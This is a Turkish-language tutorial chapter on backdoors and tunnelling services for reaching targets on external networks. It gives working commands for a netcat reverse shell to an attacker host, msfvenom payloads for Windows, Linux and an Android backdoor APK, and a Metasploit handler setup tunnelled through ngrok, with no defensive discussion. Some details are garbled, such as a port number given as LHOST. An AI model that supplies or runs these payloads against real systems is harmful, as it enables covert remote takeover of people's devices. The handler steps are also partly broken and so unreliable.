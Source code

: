 
# Bölüm 16: Dış Ağda Backdoor ve Tünel Servisleri

## 1️⃣ Backdoor (Arka Kapı) Nedir?

Backdoor (arka kapı), bir sisteme veya cihaza gizli erişim sağlamak için kullanılan bir yöntemdir. Genellikle güvenlik sistemlerini atlatarak uzaktan kontrol sağlamaya yarar.

### 🔹 Backdoor Çeşitleri

- ✅ **Reverse Shell (Ters Kabuk)**: Hedef sistemden saldırgana bağlantı başlatır.
- ✅ **Bind Shell (Bağlı Kabuk)**: Hedef sistemde bir port açar, saldırgan bu porta bağlanır.
- ✅ **Kalıcı Backdoor**: Sisteme her yeniden başlatıldığında çalışacak şekilde yerleştirilir.

---

## 2️⃣ Dış Ağda Backdoor Kullanımı

Hedef dış ağdaysa, bağlantı kurmak zorlaşabilir. Bunun için tünelleme servisleri veya port yönlendirme kullanılır.

### 📌 Kullanılan Yöntemler

- VPN veya Proxy
- Ngrok, LocalTunnel
- Metasploit Reverse Shell + NAT Bypass

---

## 3️⃣ Tünel Servisleri Nedir?

Tünel servisleri, iç ağdaki bir cihazın dış ağdan erişilebilir olmasını sağlar.

### 📌 Popüler Tünel Servisleri

- ✅ **Ngrok**: İç ağdaki portu internete açar
- ✅ **FRP**: Reverse proxy işlemleri yapar
- ✅ **Chisel**: SSH tabanlı port yönlendirme sağlar
- ✅ **Socat**: Ters kabuk bağlantıları için kullanılır

---

## Dış Ağda Erişim Yöntemleri

### 1️⃣ Doğrudan Bağlantı (Port Yönlendirme)

Açık portlara doğrudan bağlantı yapılabilir.

```bash
# Port tarama örnekleri
nmap -sS -Pn -p- <target_ip>
```

### 2️⃣ Reverse Shell (Ters Kabuk)

```bash
# Netcat ile reverse shell örneği
nc -e /bin/bash ATTACKER_IP 4444
```

### 3️⃣ Ngrok ile Tünelleme

```bash
# Ngrok ile 4444 portunu aç
ngrok tcp 4444
```

### 4️⃣ VPN / DNS Tünelleme

- **VPN** ile doğrudan iç ağa bağlanılır.
- **DNS Tünelleme** araçları: Iodine, DNScat2

---

## Msfvenom Kullanımı

Msfvenom, Metasploit Framework'e ait payload oluşturma aracıdır.

### 📌 Temel Format

```bash
msfvenom -p <PAYLOAD> -f <FORMAT> -o <OUTPUT_FILE>
```

### 🔹 Windows için Reverse Shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o shell.exe
```

### 🔹 Linux için Reverse Shell

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f elf -o shell.elf
```

### 🔹 Android için APK Backdoor

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -o backdoor.apk
```

---

## Metasploit Kullanımı (Handler ve Exploit)

```bash
# Payload oluşturma
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=0.tcp.ngrok.io LPORT=11620 -f exe -o /root/newbackdoor.exe

# Metasploit başlatma
msfconsole

# Exploit ayarları
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 4242
exploit -j -z

# Oturumları listele
sessions -l

# Oturuma bağlan
session -2

# Meterpreter komutu örneği
meterpreter> ls
```

---

## 🔚 Özet

- **Port Yönlendirme**: Doğrudan bağlantı
- **Reverse Shell**: NAT arkasındaki hedefe geri bağlantı yaptırılır
- **Ngrok / Chisel**: Güvenli tünelleme
- **Msfvenom**: Zararlı dosya oluşturma
- **Metasploit**: Payload çalıştırma ve hedefe sızma

